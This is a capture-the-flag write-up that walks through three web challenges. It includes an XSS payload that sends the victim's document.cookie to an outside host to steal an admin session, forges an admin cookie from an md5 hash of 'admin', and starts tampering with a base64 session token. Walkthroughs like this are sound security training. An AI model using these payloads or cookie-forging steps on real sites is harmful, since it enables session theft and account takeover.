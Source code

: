 #Web

##Wallowing Wallabies - Part One
>Wallowing Wallabies provides enterprise contract management - we'd like to find out how easy it is to perform corporate espionage against them. Visit them here.

>*Please note* Please do not run automated scanners against the target - that's not the intended solution. Instead, perhaps look up "xss cookie catching", "xss cookie stealing" and other documents along those lines. Thanks!

We're brought to a home page.
![](https://github.com/lsp7856/Google-CTF/blob/master/CTF1.png)
Viewing the Source Code of the page could be helpful to start out.
Nothing too interesting.

https://wallowing-wallabies.ctfcompetition.com/robots.txt
brings us to a page of interesting links
Robots.txt is a file sites usually have to give instructions to web robots
Disallows web robots from visiting certain pages of the site
>User-agent: *
Disallow: /deep-blue-sea/
Disallow: /deep-blue-sea/team/
//Yes, these are alphabet puns :)
Disallow: /deep-blue-sea/team/characters
Disallow: /deep-blue-sea/team/paragraphs
Disallow: /deep-blue-sea/team/lines
Disallow: /deep-blue-sea/team/runes
Disallow: /deep-blue-sea/team/vendors

We can submit a message on the `Disallow: /deep-blue-sea/team/vendors` page. It is vulnerable to [XSS](http://www.golemtechnologies.com/articles/prevent-xss "XSS") (Cross-Site Scripting)
><em>XSS</em> - enables attackers to inject client-side scripts into web pages viewed by other users

Once a message is submitted we're redirected a page with this text:
>Thank you, your request has been received
Your message to the admins is as follows:
!!! Expecting to find '<script src=.' in your input -- please re-read the level challenge.

This could be a hint... `<script src=.`
An XSS vector could work here to steal a user's session cookie, such as the admin
The best way to perform an XSS attack here is to trick the page into outputting data we enter
The webpage displays an error message when we don't enter information that meets its rules
The error message contains exact text we enter which is what generally leads to XSS in any situation

Let's test it out with this script in the justification box:

`<script src="bootstrap.min.js">`<br>
`</script>`<br>
`<script>document.write('<img src="http://www.softtrack.co.kr/text.php/?c='+document.cookie+'"/>');`<br>
`</script>`


To perform espionage against this site, which is our main goal, it would be pretty destructive if we were able to get a hold of the admin's session data from the cookie then try to use the session to impersonate and login as the admin


##✓ Ernst Echidna
>Can you hack [this](http://ernst-echidna.ctfcompetition.com "this") website? The robots.txt sure looks interesting.

Let's begin by taking up the hint and taking a look at the robots.txt page
>`Disallow: /admin`

Let's check out the admin page since it seems to be the only one the site doesn't want robots to see
>You are not logged in!

True...

Our best option is to try registering for an account back on the home page.

We can take a look at the source code, but there's not much there to see. Just a standard username/password screen, nothing hidden in the HTML.

After registering, a page appears that says:
>Welcome
>Thank you for registering!
>Unfortunately, there has been no content posted on this site

What if we revisit the admin page?
>Sorry, this interface is restricted to administrators only

Revisit the home page...The site is keeping track that we are now a registered member. This is a sign that it is holding our cookie. There is a possibility that the site also holds the admin's cookie too.

Go to the Pad-Lock in the URL bar, and view the cookies for this site.
![](https://github.com/lsp7856/Google-CTF/blob/master/Screen%20Shot%202016-05-25%20at%201.45.50%20PM.png?raw=true)
md5-hash is the name of our cookie

There's a hashed form of md5-hash given to us too under Content

We can try to crack this md5 hash, [md5cracker.org](http://md5cracker.org) works fine

Let's try to trick the webpage into thinking we are the administrator.

We can create our own md5hash of the username: admin

[This site works](http://md5cracker.org/create-md5)
Edit our current cookie for the username we registered and change it to our new hashed form of admin.
To do this we need to download a quick Cookie editor extension. I used EditThisCookie which is a free Chrome extension. We can remove it when we are done with this CTF challenge, or not. Then, change the value of our cookie to the hashed admin value.

Now when we go to /admin the webpage says:
>The authentication server says..
>Congratulations, your token is 'CTF{renaming-a-bunch-of-levels-sure-is-annoying}'

##Dancing Dingoes
>We're interested in finding out what information is stored on [this](https://dancing-dingoes.ctfcompetition.com/) website. We've already obtained the username "proff" and the password "strobe.c", but can't work out how to access the "admin" user. Any ideas?

We're given a basic login screen to begin with. We can always start by looking at the source code.
A css Style Sheet is accessible, might not be too useful, but its there.

Even if we try to visit other webpages on the site (robots.txt) we are blocked by the same username/password login screen.

Let's use the given username and password to login and look around.
>username: proff
>password: strobe.c

Documents Available

Below is the documents available to you!
* International Subversives
* Worms Against Nuclear Killers
* Underground

Once we're logged in, we can see the site stores two cookies during one session
1. APISESSIONID
2. SSOSESSIONID

The hashed APISESSIONID: dHlwZT1wcm9mZiZpZHg9MSZjPTU2JnVpZD04OTVjdHg9MjE3NyZoYXNoPTM1NmY3ODk5Y2M1MmRmNjAxNjY3YzdiOTUxNzE2ZDRjMGE3MzhmNjEwYTRlMzQxNWEyYzdlZDU3ZmMwNGUyNjQ=

We can try to manipulate this to become the hashed admin value again like we did in a previous challenge
[help](https://github.com/VulnHub/ctf-writeups/blob/master/2016/google-ctf/Dancing%20Dingoes.md)
